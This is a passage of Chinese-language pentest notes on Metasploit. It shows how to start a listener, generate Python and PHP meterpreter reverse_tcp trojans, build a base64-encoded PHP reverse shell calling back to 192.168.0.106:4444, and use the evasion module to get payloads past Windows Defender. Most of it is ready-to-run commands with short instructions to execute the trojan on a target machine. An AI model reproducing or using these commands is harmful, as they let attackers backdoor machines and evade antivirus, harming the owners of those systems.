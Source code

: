 在msf的首页也是可以直接使用payload的，如下：

![image-20230219214541290](./流氓&病毒.assets/image-20230219214541290.png)

设置好payload之后可以使用handler直接创建job。

![image-20230219215437504](./流氓&病毒.assets/image-20230219215437504.png)

监听设置好之后我们就可以创建木马并在目标机器上执行木马了，记得要给木马执行文件。

![image-20230219215536082](./流氓&病毒.assets/image-20230219215536082.png)





### msf生成跨平台脚本木马

```shell
# 生成python脚本代码
msf6 > use payload/python/meterpreter/reverse_tcp
msf6 payload(python/meterpreter/reverse_tcp) > generate -o /root/p.py -o raw  # raw 表示生成源代码，如果使用py格式的则会生成编码后的shellcode

# 生成php脚本代码
msf6 payload(php/meterpreter/reverse_tcp) > generate -f raw -o /root/p.php

生成各种payload：https://www.cnblogs.com/backlion/p/6000544.html
```





### msf混淆模块&Evasion

```shell
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.0.106 LPORT=4444 -o /root/ent.php -e php/base64  # 使用base64对代码进行编码
```



**免杀（evasion）：**

msf自身存在免杀模块，在banner信息下面可以看见：

![image-20230220220354696](./流氓&病毒.assets/image-20230220220354696.png)



```
show evasion   # 查看免杀模块

info xxx       # 使用info可以查看指定模块的信息

use use evasion/windows/windows_defender_exe  # 使用windows defender模块
set payload windows/meterpreter/reverse_tcp   # 设置payload

show options   # 查看配置项

```
